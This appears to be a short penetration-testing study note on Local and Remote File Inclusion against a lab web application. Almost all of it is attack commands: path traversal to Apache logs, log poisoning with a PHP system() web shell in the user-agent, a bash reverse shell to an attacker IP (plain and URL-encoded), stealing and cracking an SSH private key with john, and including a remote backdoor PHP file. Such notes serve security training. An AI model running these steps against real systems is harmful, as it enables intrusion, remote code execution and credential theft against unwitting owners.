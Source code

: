 ### Local File Inclusion

```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
```

Modify user-agent by adding <?php echo system($_GET['cmd']); ?>

bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

```
/home/daniela/.ssh/id_rsa
ssh2john id_rsa > ssh.hash 
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
ssh -i id_rsa daniela@192.168.50.244
```

### Remote File Inclusion

- RFI vulnerabilities allow us to include files from a remote system over HTTP1 or SMB.

python3 -m http.server 80
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"

